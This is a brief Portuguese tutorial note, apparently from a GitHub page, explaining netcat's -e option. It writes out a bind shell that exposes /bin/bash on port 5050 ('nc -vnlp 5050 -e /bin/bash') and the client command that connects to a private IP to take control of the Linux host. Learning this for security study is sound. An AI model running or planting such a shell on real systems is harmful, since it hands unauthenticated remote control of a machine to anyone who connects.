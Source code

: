 Utilizando o atributo -e

-e serve para executar um programa 

comando: nc -vnlp 5050 -e /bin/bash

Nesse caso o netcat abre uma porta 5050 e da acesso ao terminal do linux.

Quem acessar esse ip/porta vai conseguir controlar o linux


No caso do bind shell é executado esse comando no lado do servidor.

E no lado do cliente, executa esse:
nc -vn 192.168.15.125 5050